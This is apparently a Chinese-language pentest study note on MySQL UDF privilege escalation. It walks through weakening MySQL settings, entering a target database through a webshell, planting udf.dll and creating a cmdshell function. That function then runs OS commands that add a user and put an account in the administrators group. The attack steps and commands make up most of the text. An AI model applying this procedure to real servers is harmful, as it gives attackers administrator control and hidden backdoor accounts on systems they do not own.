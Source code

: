 
# 二、数据库提权之UDF提权
前提配置：
grant all privileges on *.* to 'root'@'%' identified by 'root' with grant option;
flush privileges;

bind-address = 0.0.0.0
secure_file_priv = ''


获取数据库账号密码之后最终的目的是利用数据库来提升权限，从而能够执行操作系统的命令！

什么是UDF：User Defined Function 用户自定义函数，MySQL数据库的初衷是用于方便用户进行自
定义函数来查询一些复杂的数据。
这个函数提供方便的同时也会带来风险，攻击者可以利用这个机制自定义一个函数，从而能够借助函数执行操作系统命令达到提权的目的。
执行过程：本质上还是利用了MySQL能够执行系统命令的特点。

步骤：通过webshell登录到对方数据库。然后上传UDF工具提权
上传利用UDF工具分两种情况：
1，当对方mysql数据库的版本小于5.2版本时，把udf.dll导入到c盘windows目录或者system32目录下。
C:\\WINDOWS\\udf.dll 或 C:\\WINDOWS\\system32\\udf.dll


2，当对方mysql数据库的版本大于等于5.2版本时，需要把udf.dll导入到mysql数据库的安装路径。
一般默认安装路径：C:/Program Files/MySQL/MySQLServer5.5/lib/plugin/udf.dll

首先我们要知道目标数据库的版本
方法一：通过菜刀进入数据库命令行输入命令：
select version();

方法二：使用mysql综合利用工具直接远程连接，即可报出数据库版本



通过mysql综合利用工具以绝对路径的方式去导入udf.dll文件。
`C:\\phpStudy\\MySQL\\lib\\plugin\\udf.dll`
![[Pasted image 20241021212513.png]]



接下来我们利用udf.dll文件新建自定义函数cmdshell：
Create Function cmdshell returns string soname 'udf.dll';
#create 用udf.dll创建一个函数，命名为：cmdshell

命令可以查看帮助文档：
select cmdshell('whoami');

select cmdshell('net user');

select cmdshell('net user xy 123456 /add');


通过调用我么自定义的cmdshell函数，我们成功提权到了系统管理员权限原因：因为部署数据库时就是使用Administrator权限来部署的，如果部署数据库是system权限，那么拿到的也会是system权限

那么接下来我们可以利用系统管理员权限把账号加入到管理员组。
具体命令：
select cmdshell("net localgroup administrators xiaolin /add");

